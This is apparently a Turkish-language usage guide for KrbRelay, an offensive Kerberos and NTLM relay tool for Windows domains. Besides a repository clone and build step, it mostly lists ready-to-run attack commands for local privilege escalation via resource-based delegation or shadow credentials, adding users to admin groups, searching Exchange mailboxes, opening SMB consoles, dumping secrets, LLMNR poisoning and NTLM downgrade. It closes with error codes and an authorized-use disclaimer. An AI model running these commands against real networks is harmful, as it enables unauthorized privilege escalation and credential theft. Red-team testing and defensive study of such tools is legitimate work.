# KrbRelay.exe Kullanım Kılavuzu

## Hakkında

**KrbRelay**, Kerberos relaying işlemleri için kullanılan bir çerçeve (framework) olup, birden fazla protokolü destekleyen bir güvenlik aracı olarak tasarlanmıştır. Araç, Windows sistemlerinde saldırı ve test amaçlı kullanılmak üzere geliştirilmiştir.

---

## Desteklenen Protokoller ve Özellikler

- **LLMNR**
- **LDAP/LDAPS**
- **HTTP**
  - EWS desteği
- **SMBv2**
- **RPC over SMB**
  - MS-SAMR
  - MS-SCMR
  - MS-RPRN
  - MS-RRP
  - MS-LSAT/MS-LSAD

---

## Kurulum ve Kullanım

### İndirme ve Derleme

1. **KrbRelay** GitHub reposundan klonlanmalıdır:
   ```bash
   git clone https://github.com/cube0x0/KrbRelay.git
   ```

2. **Visual Studio** kullanarak proje dosyasını açın ve derleyin.

3. Derleme tamamlandığında `KrbRelay.exe` dosyasına erişebilirsiniz.

### Kullanım Komutları

**Genel Format:**
```bash
KrbRelay.exe [opsiyonlar]
```

#### Örnek Kullanımlar

##### Yerel Yetki Yükseltme (LPE)
```bash
KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred
```

##### LDAP Cross-Session
```bash
KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred
KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember srv_admins domain_user
```

##### HTTP Cross-Session
```bash
KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-search beta,test
KrbRelay.exe -spn http/win2016.htb.local -endpoint iisstart.htm -proxy -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182
```

##### SMB Cross-Session
```bash
KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -console
KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -secrets
```

##### LLMNR Kullanımı
```bash
KrbRelay.exe -llmnr -spn 'cifs/win2019.htb.local' -secrets
```

##### NTLM Kullanımı
```bash
KrbRelay.exe -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm
KrbRelay.exe -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm -downgrade
```

---

## Hata Kodları

### OXID Resolver Engelleniyor
```plaintext
System.Runtime.InteropServices.COMException (0x800706BA): The RPC server is unavailable.
```

### Geçersiz CLSID
```plaintext
System.Runtime.InteropServices.COMException (0x80080004): Bad path to object.
```

### Kerberos Sorunları
```plaintext
System.Runtime.InteropServices.COMException (0x800706D3): The authentication service is unknown.
```

---

## Acknowledgements

- **James Forshaw** – Kerberos relay ve NtApiDotNet projeleri için
- **Michael Grafnetter** – DSInternals için
- **Kevin Robertson** – Inveigh için
- **decoder_it ve splinter_code** – RemotePotato0 için

---

## Lisans

**KrbRelay** aracı, `BSD 3-Clause` lisansı altında sunulmaktadır. Araç yalnızca eğitim ve yetkili test ortamlarında kullanılmalıdır. Yetkisiz kullanım yasa dışıdır.
